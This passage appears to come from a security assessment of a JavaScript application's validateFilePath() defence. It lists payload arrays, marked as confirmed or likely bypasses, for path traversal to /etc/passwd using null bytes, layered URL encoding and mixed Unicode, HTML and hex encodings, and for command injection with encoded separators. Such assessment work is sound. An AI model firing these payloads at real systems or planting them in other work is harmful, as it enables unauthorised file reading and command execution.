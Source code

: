 **Why it works**: The `validateFilePath()` function checks for `..` patterns after `path.normalize()`, but null bytes can truncate the normalized string before dangerous patterns are detected.

### 3. Double/Triple URL Encoding
**Status**: ✅ BYPASSES CURRENT DEFENSES

**Attack Vector**: Multiple layers of URL encoding
```javascript
// Confirmed working bypasses:
const encodedTraversals = [
  "%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd", // Triple encoded ../../../etc/passwd
  "%25%32%65%25%32%65%25%32%66", // Double encoded ../ 
  "%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64" // URL encoded ../../../etc/passwd
];
```

**Why it works**: The legacy validation only performs single-layer URL decoding (if any), while attackers can use multiple encoding layers.

## Additional Attack Vectors (High Probability)

Based on the architecture analysis, these additional bypasses are highly likely to work:

### 4. Mixed Encoding Combinations
```javascript
const mixedEncodingAttacks = [
  "\\u002e\\u002e/%2e%2e/\\x2e\\x2e/etc/passwd",  // Unicode + URL + Hex
  "&#46;&#46;/\\u002e\\u002e/%2e%2e/etc/passwd",   // HTML + Unicode + URL
  "\\x2e\\x2e/&#46;&#46;/\\u002e\\u002e/etc/passwd" // Hex + HTML + Unicode
];
```

### 5. Alternative Path Separators with Encoding
```javascript
const pathSeparatorBypass = [
  "..\\u002f..\\u002fetc\\u002fpasswd",     // Unicode forward slash
  "..\\u005c..\\u005cetc\\u005cpasswd",     // Unicode backslash
  "..%2f..%2fetc%2fpasswd",                 // URL encoded separators
  "..&#47;..&#47;etc&#47;passwd"            // HTML entity separators
];
```

### 6. Command Injection via Encoded Metacharacters
```javascript
const encodedMetacharacters = [
  "ls\\u0020\\u003b\\u0020cat\\u0020/etc/passwd",  // Unicode spaces and semicolon
  "ls%20%3b%20cat%20/etc/passwd",                   // URL encoded ; and spaces
  "ls&#32;&#59;&#32;cat&#32;/etc/passwd",           // HTML entities for space and ;
  "ls\\x20\\x3b\\x20cat\\x20/etc/passwd"           // Hex encoded metacharacters
];
```
